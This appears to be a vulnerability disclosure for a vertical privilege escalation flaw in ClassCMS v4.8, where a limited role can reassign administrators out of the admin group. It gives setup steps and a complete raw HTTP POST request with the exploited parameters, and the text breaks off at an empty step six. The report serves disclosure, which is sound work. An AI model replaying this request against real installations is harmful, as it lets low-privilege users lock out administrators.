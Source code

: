 # Vertical Privilege Escalation Vulnerability Report

## Description
A privilege escalation vulnerability exists in the model management module of Classcms. This allows accounts belonging to non-admin user groups to modify admin group users and change their group memberships to other user groups. If all users in the admin group are changed to other groups, the system will no longer have the ability to configure accounts for the admin group.

## Download URL
[https://github.com/ClassCMS/ClassCMS/releases/tag/v4.8](https://github.com/ClassCMS/ClassCMS/releases/tag/v4.8)

## Version
V4.8

## Tested Environment
- PHP
- Apache
- MySQL

## Affected Page
`/index.php/admin`

## Vulnerability Details
In the user management page, the username, hash, and rolehash[0] parameters are vulnerable to vertical privilege escalation. Accounts with non-admin permissions can modify the roles of members in the admin user group, even though they cannot view admin users. While the system prevents non-admin users from elevating their own roles to the admin group, it fails to account for vertical privilege escalation that allows non-admin users to downgrade the permissions of admin group members. This oversight can result in a scenario where admin users lose their admin group membership, effectively locking all admin users out of the admin group.

## Steps to Reproduce

1. To test this vulnerability, you need two roles: the default admin role and a custom aaa role with permissions for "Modify User Account" in User Management and access to Role Management. The setup should look as shown in the figure:
![image](https://github.com/user-attachments/assets/21785bd1-9e0e-4001-bb67-4ccd45c23428)
2.Log in to the backend, then click on User Management, followed by Roles, and then click Add Role. Create the aaa role and assign it only the permissions for Role Management and Modify User Account.
![image](https://github.com/user-attachments/assets/210caa40-1cee-4e46-9cb2-eae1da2b41bc)
![image](https://github.com/user-attachments/assets/36b79a44-8595-4670-a2e8-52b8e04e3e28)
![image](https://github.com/user-attachments/assets/486f5d1a-8cb2-4336-8bb5-2cf06f3340d1)
![image](https://github.com/user-attachments/assets/62709bc4-8904-40eb-95be-a237d8929c42)
3.Add a user a and assign the aaa role to them.
![image](https://github.com/user-attachments/assets/4ae05941-9ce0-44b7-9e27-6c3addf23355)
4.Log in as user a and notice that the interface is empty.
![image](https://github.com/user-attachments/assets/2e9dc7c1-8f16-4aaa-8ea3-18ef40a2ad9a)
5.Below is the complete structure of the data packet:

```http
POST /admin?do=admin:user:editPost HTTP/1.1
Host: 10.0.93.90
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://10.0.93.90/admin?do=admin:user:edit&id=2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 90
Origin: http://10.0.93.90
Connection: close
Cookie: token_672065=c09db2a11c209391046dc7c4c9d83053; csrf_672065=179ab53e; token_c075a1=918201e1160a21fbf851ec06b7abce41; csrf_c075a1=2963664c; token_da3622=36a824c20e91a443ff207e1e15b82ffd; csrf_da3622=f5c8ede5; token_595ef5=314802c11146c95fad9ea45f332ad7ee; csrf_595ef5=04da0bce

username=a&hash=a&enabled=on&rolehash%5B0%5D=admin&passwd=&passwd_2=b&csrf_595ef5=04da0bce```

6.


